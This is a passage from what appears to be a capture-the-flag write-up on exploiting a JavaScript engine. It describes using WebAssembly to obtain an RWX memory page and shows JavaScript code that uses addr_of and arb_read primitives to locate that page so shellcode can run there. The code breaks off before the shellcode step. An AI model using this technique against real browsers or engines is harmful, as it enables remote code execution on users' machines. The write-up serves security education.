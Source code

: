 I had tried this out earlier, and had been unable to really use it
(i.e., I had been unable to trigger the creation of an RWX page), but
just to make sure that I had done things right, I opened up a new text
editor, and wrote down [some JS code](./wasm.js) to initialize and
execute some Wasm code. The only goal of introducing Wasm into our
exploit is to introduce an RWX page that we can then use.

Running this and checking `vmmap` using `peda`, I realized that we had
introduced an RWX page (!)

From this point forward, there is a "new" (or ancient) path to shell
that I can see: write shellcode to the RWX region, and then directly
execute it. I was no longer sleepy :D

## Flag!

Now that I could see a new approach to getting a shell, I was
re-energized. I started to look for "paths" from known
functions/variables to the RWX page. Fortunately, I found one that
seemed stable, even on the server, and I was able to obtain a pointer
to a function that I could execute.

At this point, all that remained was to actually add in some shellcode
(taken from
[shell-storm](http://shell-storm.org/shellcode/files/shellcode-806.php)),
and I'd have shell.

The final exploit consisted of initializing wasm, in order to obtain
an `rwx_page_addr` and a `wasm_func` that when run, would execute the
core at the address obtained.

```js
let wasm_buffer = new ArrayBuffer(wasm_simple.length);
const wasm_buf8 = new Uint8Array(wasm_buffer);
for (var i = 0 ; i < wasm_simple.length ; ++i) {
	wasm_buf8[i] = wasm_simple[i];
}

let rwx_page_addr = undefined;

var wasm_importObject = {
	imports: {
	imported_func: function(arg) {
		// wasm_function -> shared_info -> mapped_pointer -> start_of_rwx_space
		let a = addr_of(wasm_func);
		a -= 1n;
		a += 0x18n;
		a = arb_read(a);
		a -= 0x91n;
		a = arb_read(a);
		rwx_page_addr = a;
		console.log("    + rwx_page_addr = " + rwx_page_addr.hex());
		stages_after_wasm();
	}
	}
};

async function wasm_trigger() {
	let result = await WebAssembly.instantiate(wasm_buffer, wasm_importObject);
	return result;
}

let wasm_func = undefined;

wasm_trigger().then(r => {
	f = r.instance.exports.exported_func;
```